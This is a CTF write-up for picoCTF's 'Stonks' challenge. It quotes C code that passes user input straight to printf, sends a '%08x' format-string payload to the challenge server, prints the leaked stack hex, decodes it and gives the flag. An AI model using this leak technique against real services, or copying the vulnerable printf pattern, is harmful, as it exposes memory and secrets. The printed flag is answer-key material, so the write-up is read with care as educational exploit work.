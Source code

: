 #Category: Binary Exploitation

##Stonks
Points: 20

The source code takes us through creating an imaginary stock trading network client. The part that interests us is the function `buy_stonks`, which loads the flag into a char_array and then printf our API token input:

~~~~~~c
	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
~~~~~~

This printf call is vulnerable to a format string epxloit, and so we can simply print out values on the stack and see if we can locate the flag string.

Following a guide on pwntools, I was able to create a Python program that sends "%08x"*40 to the server as the API key and then print out the output. The padding parameter '08' is particularly important to get a nicely-formatted hex string.
~~~~~
[+] Opening connection to mercury.picoctf.net on port 6989: Done
[*] Viewing Portfolio...
[*] Sending Format String..
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
[*] Received data:
081e83f00804b000080489c3f7ecbd80ffffffff00000001081e6160f7ed9110f7ecbdc700000000081e718000000002081e83d0081e83f06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffb4007df7f06af8f7ed9440fc411e000000000100000000f7d68be9f7eda0c0f7ecb5c0f7ecb000ffb4f018f7d5958df7ecb5c008048ecaffb4f02400000000f7eedf09

[*] Closed connection to mercury.picoctf.net port 6989
~~~~~~~

When we try to decode this hex string, we notice that the endianess causes a group of every 4 characters to be swapped. We can use CyberChef to swap the endianess and decode the string:

~~~~
Output: ð....°..Ã....½ì÷ÿÿÿÿ....`a....í÷Ç½ì÷.....q......Ð...ð...picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}.´ÿøjð÷@.í÷..Aü........é.Ö÷À í÷Àµì÷.°ì÷.ð´ÿ..Õ÷Àµì÷Ê...$ð´ÿ....	ßî÷
~~~~
flag: picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}